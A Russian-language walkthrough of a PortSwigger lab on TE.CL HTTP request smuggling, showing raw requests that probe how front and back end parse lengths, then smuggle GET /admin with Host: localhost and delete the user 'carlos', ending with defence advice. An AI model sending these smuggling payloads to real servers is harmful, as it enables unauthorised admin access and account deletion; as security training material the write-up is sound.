


лаба https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl


есть админка /admin и нужно на нее попасть через контробанду / то есть стырить сессию и удалить карлоса

----

вот ориг запрос
```http
GET / HTTP/2
Host: 0ab4007b047e1fe680a962d40014009d.web-security-academy.net
Cookie: session=yXwuJMHZTdePhiJnEsuDs8mspKBFUTc5
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

------

----
 меняю протокол на  HTTP/1.1 и запрос также работает, отлично

далее убираю куки все - чтобы не мельтишили тут
меняю метод на POST
выключаю апдейт CL
добавляю
Content-Type: application/x-www-form-urlencoded
Content-length: 1
Transfer-Encoding: chunked


---


-----
сырой запрос выходит
```http
POST / HTTP/1.1
Host: 0ab4007b047e1fe680a962d40014009d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 1
Transfer-Encoding: chunked

1
```

---

теперь нужно сделать два базовых запроса для определения базовых видов уязвимостей

классический запрос тест
```http
POST / HTTP/1.1
Host: 0ab4007b047e1fe680a962d40014009d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 6
Transfer-Encoding: chunked

16
abc
x

```
ответ 400 "error" : "Read timeout"
ошибка  от фронта
###### значит фронт слушается TE 
так как есть поменять вместо 16 на 0 - то мгновернно ошибка - неверный запрос!


классический запрос тест
```http
POST / HTTP/1.1
Host: 0ab4007b047e1fe680a962d40014009d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 6
Transfer-Encoding: chunked

0

x
```
ответ Server Error 500 Server Error: Read timed out

###### значит - сервер слушается только CL -так как если бы он слушался чанков - то ответил бы сразу 200 - так как там  0 стоит!

----


делаю запрос

```http
POST / HTTP/1.1
Host: 0ab4007b047e1fe680a962d40014009d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 100
Transfer-Encoding: chunked

59

POST /admin HTTP/1.1
Host: 0ab4007b047e1fe680a962d40014009d.web-security-academy.net

0


```
первый и повторный запросы = 200 обынчные без админки

нужно добавить контент!

```http
POST / HTTP/1.1
Host: 0ab4007b047e1fe680a962d40014009d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 121
Transfer-Encoding: chunked

6e

POST /admin HTTP/1.1
Host: 0ab4007b047e1fe680a962d40014009d.web-security-academy.net
Content-length: 100

0


```
но первый и повторный запросы = 200 обынчные снова без админки


-----

запрос
```http
POST / HTTP/1.1
Host: 0af20074037fd08981822f85001e002d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

9e

GET /admin HTTP/1.1
Host: 0af20074037fd08981822f85001e002d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 100

0


```

первый запрос ответ - 200 обычный
второй запрос - ответ 401
```html

                   </header>
                    Admin interface only available to local users
                </div>
```


----
нужно пробовать локал хост!

запрос 
```http
POST / HTTP/1.1
Host: 0af20074037fd08981822f85001e002d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

6e

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-length: 100

0


```


и вуаля- доступ к админке получен!!!



отсалось дернуть за ручку
```html
</span>
                            <a href="/admin/delete?username=carlos">Delete</a>
                        </div>
```

поменял
```http
POST / HTTP/1.1
Host: 0af20074037fd08981822f85001e002d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

85

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-length: 100

0


```
ответ 302 1

##### лаба решена!!!!


фронт слушался только чанков я указал 85 , 85 это в переводе в шестналцатирич сист -=133 !
а все что что входило в в эти 85 - все попадает на сервер!

а вот сервер уже слушался только CL - и я указал ему 4 символа `Content-Length: 4`
сервер получил 133 символа - но для запроса использовал только число 85+перенос строки = всего 4 символа!
а вот оставшиеся 129 символов остались висеть в буфере на этом прокси-сервере и приклеились к следующему запросу!




----

### защита

нужно чтобы фронт и бэк одинаково определяли границы запросов

лучше использовать http/2 где нет путаницы с длиной

если http/1.1 то запрещать запросы с противоречивыми заголовками content-length и transfer-encoding

также валить соединения где возникает рассогласование

и обязательно проверять заголовок host на бэкенде даже для запросов которые пришли через прокси

и регулярно обновлять серверное по